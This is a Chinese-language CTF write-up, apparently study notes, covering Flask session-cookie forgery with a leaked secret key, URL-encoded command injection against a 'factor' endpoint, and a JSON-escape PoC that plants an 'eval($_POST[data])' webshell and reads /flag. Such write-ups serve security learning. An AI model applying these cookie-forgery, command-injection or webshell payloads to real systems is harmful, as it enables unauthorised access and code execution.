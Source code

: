 # flask?jwt?
	- 看到
		- ```
		  © C4skg 有问题请发送邮件至 adm1n@flag.com
		  ```
	- 看到changepasswd界面有注释flask secret, 伪造cookie即可
- # flask?jwt?(hard)
	- 看到`/`页面的注释提示`<!-- 我der密钥去哪里了，哦！源来氏被 /wor 藏起来了 -->`
	- 访问`/wor`，显示当前用户的登陆时间
	- 查看cookie发现登陆时间存储在cookie中
	- 清除cookie访问`/wor`发生报错，发现key存储在源码中
		- ```python
		  app.secret_key = 'hardgam3_C0u1d_u_f1ndM3????';
		  @app.route('/wor')
		  def wor():
		      loginTime = session.get('time');
		      if not loginTime:
		          return '' % loginTime; #用这种方式唤醒 debug，看看到底哪里出了问题，怎么会没有登录时间呢？？
		      else:
		          return '哼，我不会告诉你我藏哪里了，但是不能什么都不跟你说吧？哎，告诉你上次的登录时间吧: %s' % loginTime;
		  ```
	- 使用 [[CTFWEB/Flask-Unsign]]伪造cookie即可
		- ```shell
		  flask-unsign -s --secret 'hardgam3_C0u1d_u_f1ndM3????' -c "{'_fresh': True, '_id': '56bbc672f2c9802cba4fb5e9f1bb32cac18687858b06381395d99761996d0e4bcf8c1259e508de9ea4c06d908514909f48f6dc8db665d2abb4e47d0468166956', '_user_id': '1'}"
		  ```
	-
- # 信息收集
	- > 未解出，施工中
	- 看到index.php
	- apache设置`/usr/local/apache2/conf/httpd.conf`
		- ```
		  <VirtualHost *:80>
		  
		      ServerName localhost
		      DocumentRoot /usr/local/apache2/htdocs
		  
		      RewriteEngine on
		      RewriteRule "^/nssctf/(.*)" "http://backend-server:8080/index.php?id=$1" [P]
		      ProxyPassReverse "/nssctf/" "http://backend-server:8080/"
		  
		  </VirtualHost>
		  ```
- # ez_factor
	- 提示linux原生分解质因数程序，搜索得到linux自带的分解质因数程序`factor`
	- 猜测为shell RCE
	- 测试
		- `GET /factors/%2010%20--version HTTP/1.1`
			- 打印版本信息
		- `GET /factors/%2010%20--version%20%26%26%20ls%20%2f HTTP/1.1`
			- 只有数字，貌似所有字母都被过滤了
	- 结论：直接使用` 10 --version && ls /`之类的payload, 加上urlencode后传上去即可RCE
- # MyWeb
	- 题目在解析JSON时会将所有的`]`都替换成用户的输入，我们可以利用这一点实现字符逃逸
	- 在使用以下poc后字符x逃逸出了单引号包裹之外
		- ```python
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "]"
		  })
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "x"
		  })
		  ```
	- 我们只需要将x替换成我们想要的payload即可，poc如下
		- ```python
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "]"
		  })
		  r = base_get(url, params = {
		      "mode": "save",
		      "value": "];eval($_POST[data]);//"
		  })
		  r = base_post(url, params = {
		      "mode": "read",
		  }, data = {
		      "data": "system('cat /flag');"
		  })
		  
		  print(r.text)
		  ```